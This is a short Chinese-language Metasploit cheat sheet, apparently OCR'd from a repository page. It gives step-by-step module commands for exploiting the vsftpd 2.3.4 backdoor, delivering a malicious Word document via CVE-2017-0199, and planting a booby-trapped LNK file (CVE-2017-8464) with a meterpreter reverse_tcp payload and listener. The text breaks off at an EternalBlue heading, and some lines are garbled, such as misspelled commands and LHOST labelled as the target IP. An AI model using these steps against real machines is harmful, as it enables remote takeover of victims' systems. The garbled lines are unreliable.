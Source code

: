##### vsftpd漏洞

> **vsftpd 版本要求：v2.3.4lp**
>
> > use exploit/unix/ftp/vsftpd_234_backdoor
> >
> > set RHOSTS IP
> >
> > run

##### CVE-2017-0199

> **通过发送恶意文档来执行有效载荷的office文档**
>
> > use exploit/windows/misc/hta_server
> >
> > run
> >
> > 获取链接后执行 use exploit/windows/fileformat/office_word_hta
> >
> > set TARGETURI 获取的local ip
> >
> > set FILENAME msf.doc  (默认设置)
> >
> > set LPORT 5555 	(设置一个没有占用的端口)l'p
> >
> > run

##### CVE-2017-8464

> **攻击者给受害者 一个恶意文件,文件可存放再移动磁盘或远程共享文件夹当用户打开文件时被攻击**
>
> > set PAYLOAD windows/meterpreter/reverse_tcp
> >
> > use exploit/windows/fileformat/cve_2017_8464_lnk_rce
> >
> > set LHOST 目标IP
> >
> > run
> >
> > 生成LNK文件，将文件复制到U盘或其他盘，如果打开盘符中招
> >
> > 设置监听：
> >
> > > use multi/handler
> > >
> > >  set paylaod windows/meterpreter/reverse_tcp
> > >
> > > set LHOST 目标IP
> > >
> > > run

##### 永恒之蓝
